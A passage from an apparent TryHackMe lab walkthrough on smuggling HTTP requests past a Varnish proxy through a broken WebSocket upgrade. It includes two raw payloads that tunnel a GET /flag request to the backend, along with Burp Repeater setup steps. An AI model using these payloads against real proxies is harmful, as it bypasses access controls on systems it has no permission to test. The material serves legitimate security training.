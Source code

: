 ![Flag is denied by the proxy](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/d1e45e8a4802ccaa8026c1dc15ffe6ec.png)

This error message was sent by Varnish (the proxy) instead of the backend application, which should be interesting. If we try accessing another non-existent resource like `http://10.10.235.194:8001/nonexistent134`, the error message presented will be different. At this point, we should be suspicious that the frontend proxy is restricting access to `/flag` in the backend web server.

Luckily, there's also a WebSocket endpoint we can abuse at `http://10.10.235.194:8001/socket`. Let's send the following payload to try to smuggle a request for the flag inside a broken WebSocket connection:

```shell
GET /socket HTTP/1.1
Host: 10.10.235.194:8001
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8001

```

To send the request, we will use Burp's Repeater. To ensure Burp doesn't modify our request and break the attack, we need to make sure the `Update Content-Length` setting is disabled:

![Disabling Update Content-Length setting in Burp](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/bb84fd50d49bd7c3e88397abcc0def9d.png)

Once this is done, we can send our payload and should get the flag (note the two newlines at the end of the payload):

![Smuggling a request through WebSockets](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b1cf9c5f2251c60723a005819bcd36be.png)

Just as expected, we get a `426` error from the initial attempt to upgrade the connection to a WebSocket. At this point, the proxy believes the rest of the connection uses the WebSocket protocol and will tunnel everything directly to the backend server, including our smuggled request for `/flag`.

What if the App Doesn't Speak WebSocket?

Note that some proxies will not even require the existence of a WebSocket endpoint for this technique to work. All we need is to fool the proxy into believing we are establishing a connection to a WebSocket, even if this isn't true. Look at what happens if you try to send the following payload (be sure to add two newlines after the payload in Burp):

```shell
GET / HTTP/1.1
Host: 10.10.235.194:8001
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8001

```
